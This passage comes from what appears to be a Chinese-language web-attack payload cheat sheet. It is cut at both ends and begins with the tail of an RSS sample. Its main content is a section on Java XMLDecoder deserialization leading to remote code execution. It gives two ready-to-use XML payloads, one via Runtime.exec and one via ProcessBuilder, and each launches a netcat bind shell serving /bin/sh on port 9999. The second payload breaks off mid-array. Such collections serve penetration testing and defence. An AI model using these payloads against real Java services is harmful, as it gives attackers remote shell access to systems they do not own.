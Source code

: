 ```plain
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### [Java XMLDecoder XEE to RCE](#toc_java-xmldecoder-xee-to-rce)

XMLDecoder 是一个基于 XML 消息创建对象的 Java 类。如果恶意用户可以通过应用程序能在 readObject 函数的调用中执行任意数据，就可以在服务器上进行代码执行。

#### [Using Runtime().exec()](#toc_using-runtimeexec)

```plain
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

#### [ProcessBuilder](#toc_processbuilder)

```plain
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
```